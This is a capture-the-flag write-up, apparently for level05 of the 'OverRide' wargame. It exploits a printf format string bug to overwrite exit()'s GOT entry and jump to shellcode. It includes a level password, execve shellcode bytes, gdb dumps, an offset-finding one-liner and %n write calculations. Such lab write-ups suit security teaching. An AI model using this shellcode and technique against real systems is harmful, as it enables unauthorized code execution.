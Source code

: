 # Format String Attack

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

Even though the stack is executable, at the first glance shellcode can be placed in the buffer. But the redirection of the flow to the stack will not work, as the program modify user input.
```shell
level05@OverRide:~$ readelf -a level05 | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```
```
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
```
Breakpoint 1, 0x0804847a in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6850c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x50e3896e<<  >>0xb0e18953<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
gdb-peda$ x/25wx 0xffffd698
gdb-peda$ continue
Breakpoint 2, 0x08048513 in main ()
gdb-peda$ x/25wx 0xffffd698
0xffffd698:     0x080497e0      0x080497e2      0x90909090      0x90909090
0xffffd6a8:     0x90909090      0x90909090   >>>0x6870c031<<<   0x68732f2f
0xffffd6b8:     0x69622f68   >>>0x70e3896e<<  >>0xb0e18973<<<   0x2580cd0b
0xffffd6c8:     0x39383435      0x31257837      0x256e2430      0x39353031
0xffffd6d8:     0x31257831      0x906e2431      0x90909090      0x90909090
0xffffd6e8:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd6f8:     0x00909090
```

The issue is that `printf()` is missuded which expose the application to the Format String Attack.
FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Determine addresses of `system()` and `"/bin/sh"` as well as where `exit()` is stored.
```
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
gdb-peda$
gdb-peda$ x/i main+207
  0x8048513 <main+207>: call 0x8048370 <exit@plt>
gdb-peda$ disassemble 0x8048370
Dump of assembler code for function exit@plt:
  0x08048370 <+0>:  jmp  DWORD PTR ds:0x80497e0
  0x08048376 <+6>:  push 0x18
  0x0804837b <+11>: jmp  0x8048330
End of assembler dump.
gdb-peda$ x 0x80497e0
  0x80497e0 <exit@got.plt>: 0x08048376
```

Input recognizable characters to determine how far away input is layed on the stack.

> Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).

```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```

Export [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into environment variables and  retrieve the address where it is lay.
Devide the address per byte  and calculate for each number of characters that need to be printen by `%x` and written by `%n`.
```
0xffffdedb
0xdb -> 0x0db-16 = 203
0xde -> 0x1de-16-203 = 259
0xff -> 0x1ff-16-259-203 = 33
0xff -> 0x2ff-16-259-203-33 = 256
```

